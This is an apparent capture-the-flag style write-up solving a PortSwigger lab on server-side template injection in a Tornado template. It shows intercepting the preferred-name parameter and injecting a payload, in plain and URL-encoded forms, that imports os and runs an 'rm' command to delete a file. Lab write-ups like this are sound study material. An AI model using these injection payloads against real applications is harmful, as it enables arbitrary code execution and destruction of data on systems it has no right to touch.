





# Basic server-side template injection (code context)

## This lab is vulnerable to [server-side template injection](https://portswigger.net/web-security/server-side-template-injection) due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

## You can log in to your own account using the following credentials: `wiener:peter`

### HINT:  {{os.system('rm /home/carlos/morale.txt')

### in Django templates `{{ }}` are used to evaluate [variables](https://docs.djangoproject.com/en/1.9/ref/templates/language/#variables) and  ### `` are Django templates [tags](https://docs.djangoproject.com/en/1.9/ref/templates/language/#tags) for commands such as `block`, `if`, `for`, `with`, `comment`, etc.

### in torando template {{name}} said: {{message}}

```python
import os
cmd = 'rm /home/kali/Downloads/burp/new_test.txt'
os.system(cmd)
```

above code will delete new_text.txt file from system

---

### step 1

login using into account
observe preferred name functionality

### step2

comment anything into any post you will see name and comment



code of the above image is

`blog-post-author-display=user.name&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP`

### step2

if preferred name change name from first name it will be



### step3

if preferred name change name from nick name it will be



### step4

`blog-post-author-display=user.name&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP
modify this line
`blog-post-author-display=user.name}}{{7\*\*&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP



### step4

`blog-post-author-display=user.name}}{{7**&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP
modify `
 {{os.system('rm /home/carlos/morale.txt')
`blog-post-author-display=user.name}}{{os.system('rm /home/carlos/morale.txt')&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP

url encoded ctrl u
`blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm+/home/carlos/morale.txt')&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP`

and reload blog post


